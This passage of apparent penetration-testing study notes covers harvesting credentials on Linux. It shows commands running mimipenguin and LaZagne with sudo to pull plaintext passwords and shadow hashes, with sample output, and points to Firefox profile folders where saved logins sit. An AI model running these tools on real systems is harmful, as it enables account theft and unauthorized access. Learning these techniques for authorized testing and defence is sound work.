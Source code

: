 ```shell
2022-01-10 17:57:41 status unpacked libssh-dev:amd64 0.9.5-1+deb11u1 
2022-01-10 17:57:41 status half-configured libssh-dev:amd64 0.9.5-1+deb11u1
2022-01-10 17:57:41 status installed libssh-dev:amd64 0.9.5-1+deb11u1

...SNIP...
```


## Memory and Cache

Many applications and processes needs creds for authentication. 

We can use [mimipenguin](https://github.com/huntergregal/mimipenguin)to retrieve this type of credentials. 

```shell-session
jadu101@ubuntu:~$ sudo python3 mimipenguin.py
[sudo] password for jadu101: 

[SYSTEM - GNOME]	jadu101:WLpAEXFa0SbqOHY


jadu101@ubuntu:~$ sudo bash mimipenguin.sh 
[sudo] password for jadu101: 

MimiPenguin Results:
[SYSTEM - GNOME]          jadu101:WLpAEXFa0SbqOHY
```

Even more powerful tool is **LaZagne**. 

```shell-session
jadu101@ubuntu:~$ sudo python2.7 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: systemd-coredump
Hash: !!:18858::::::
```

## Browsers

For Firefox, credentials are in **logins.json**.

```shell-session
jadu101@ubuntu:~$ ls -l .mozilla/firefox/ | grep default 

drwx------ 11 jadu101 jadu101 4096 Jan 28 16:02 1bplpd86.default-release
drwx------  2 jadu101 jadu101 4096 Jan 28 13:30 lfx3lvhb.default
```

